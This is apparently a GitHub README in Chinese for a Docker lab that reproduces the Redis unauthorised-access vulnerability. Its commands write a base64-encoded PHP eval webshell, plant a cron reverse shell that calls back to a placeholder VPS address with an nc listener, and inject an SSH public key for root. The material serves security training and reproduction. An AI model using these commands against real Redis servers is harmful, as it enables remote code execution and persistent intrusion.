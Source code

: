 # redis-unauth-hub
基于docker的redis未授权访问漏洞复现环境，用于复现 redis写计划任务、redis写webshell、redis写ssh公钥

你是否遇到过这样的烦恼：
1. redis未授权访问漏洞复现困难，dockerhub中的redis镜像仅有redis服务
2. 因为ubuntu的限制，redis无法写计划任务反弹shell
3. 复现redis写计划任务、redis写webshell、redis写ssh公钥需要分别搭建虚拟机，并安装相应服务

`redis-unauth-hub` 帮你解决

### 使用方法

#### 自行构建docker镜像

1. 下载/克隆 仓库到本地
```
git clone https://github.com/ajisai-babu/redis-unauth-hub
```
2. 构建docker镜像
```
docker build -t redis-unauth-hub .
```
3. 开启容器
```
docker run -d -p 10081:80 -p 10022:22 -p 16379:6379 redis-unauth-hub
```

备注：镜像默认开启了 22 、80、6379 端口，可以使用如下命令查看
```
docker inspect redis-unauth-hub
```

#### dockerhub拉取镜像(不推荐)
```
docker pull yanglisianthus/redis-unauth-hub

docker run -d -p 10081:80 -p 10022:22 -p 16379:6379 redis-unauth-hub
```
### 复现指南 
> 下列复现均是在本地（Kali Linux）搭建的docker环境

推荐工具 ： https://github.com/yuyan-sec/RedisEXP

1. 写webshell：
```
./RedisEXP -m shell -r 127.0.0.1 -p 16379 -rp /var/www/html -rf shell.php -s PD9waHAgZXZhbCgkX1JFUVVFU1RbY21kXSk7Pz4= -b
```
访问 http://127.0.0.1:10081/shell.php?cmd=phpinfo();

2. 写计划任务：

VPS服务器开启监听
```
nc -lvnp 9001
```
```
./RedisEXP -m cron -r 127.0.0.1 -p 16379 -L VPS服务器IP地址 -P 9001
```

3. 写ssh公钥
```
./RedisEXP  -m ssh -r 127.0.0.1 -p 16379 -u root -s "自己替换公钥字符串"
```
连接
```
ssh root@127.0.0.1 -p10022 -i id_rsa
```

### 为什么没有主从复制
本仓库提供的redis版本为3.2.11，没有主从复制功能
复现主从复制只需要拉取一个redis 4.x 或 5.x 版本的镜像即可复现，无需其他服务，如
```
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server　
```
